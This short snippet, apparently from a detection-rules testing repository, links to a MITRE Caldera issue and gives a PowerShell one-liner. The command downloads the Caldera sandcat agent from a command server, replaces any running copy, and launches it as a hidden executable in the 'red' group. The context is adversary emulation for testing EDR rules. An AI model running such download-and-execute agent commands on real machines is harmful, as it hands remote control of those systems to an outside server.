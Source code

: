 Tools: Conatins all the tools needed for Rules Testing 
https://github.com/mitre/caldera/issues/3064


$server="http://10.99.156.91:8888";$url="$server/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","sandcat.go");$data=$wc.DownloadData($url);get-process | ? {$_.modules.filename -like "C:\Users\Public\EDRDetectionCaldera.exe"} | stop-process -f;rm -force "C:\Users\Public\EDRDetectionCaldera.exe" -ea ignore;[io.file]::WriteAllBytes("C:\Users\Public\EDRDetectionCaldera.exe",$data) | Out-Null;Start-Process -FilePath C:\Users\Public\EDRDetectionCaldera.exe -ArgumentList "-server $server -group red" -WindowStyle hidden;
